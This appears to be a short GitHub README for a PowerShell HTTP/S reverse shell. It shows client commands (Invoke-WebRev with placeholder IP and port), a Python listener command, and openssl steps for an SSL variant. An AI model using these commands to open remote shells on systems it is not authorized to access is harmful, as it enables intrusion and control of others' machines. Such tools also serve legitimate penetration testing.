 # Powershell HTTP/S Reverse Shell

## clientHTTP_shell.ps1 - client

On your client:

`Invoke-WebRev -ip IP -port PORT
Invoke-WebRev -ssl -ip IP -port PORT`

##  server.py - server

![Alt text](images/revshell.png "Server")

On your server:
    `python3 server.py IP PORT`
    
    For SSL Reverse Shell:
        openssl genrsa -out private.pem 2048
        openssl req -new -x509 -key private.pem -out cacert.pem -days 9999
        python3 server.py --ssl IP PORT


# Future features
    - Upload function
    - Download function
